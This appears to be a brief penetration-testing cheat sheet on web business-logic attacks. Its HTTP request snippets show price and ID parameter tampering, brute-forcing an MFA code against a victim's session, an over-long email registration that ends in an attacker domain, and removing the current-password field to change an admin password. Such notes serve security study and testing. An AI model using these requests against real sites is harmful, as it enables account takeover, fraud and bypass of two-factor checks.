 ```yaml
---
title: Business Logic Attack
description: Business Logic is the part of the program that encodes the real-world business rules that determine how data can be created, stored, and changed. 
tags:
    - Web
refs:
date: 2023-09-12
draft: false
---
```


## Change Request Params to Unexpected Values

```sh
productId=-1
productId=a
productId=  # empty value
productId=1&price=-1000
```

<br />

## Exploit Broken Two-Factor

### Brute force a MFA Code

```html
POST /login HTTP/1.1
Cookie: verify=victim
...

<!-- Brute force digits code -->
mfa-code=1111
```

<br />

## Loop Back with 2,147,483,647

No contents yet.

<br />

## Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```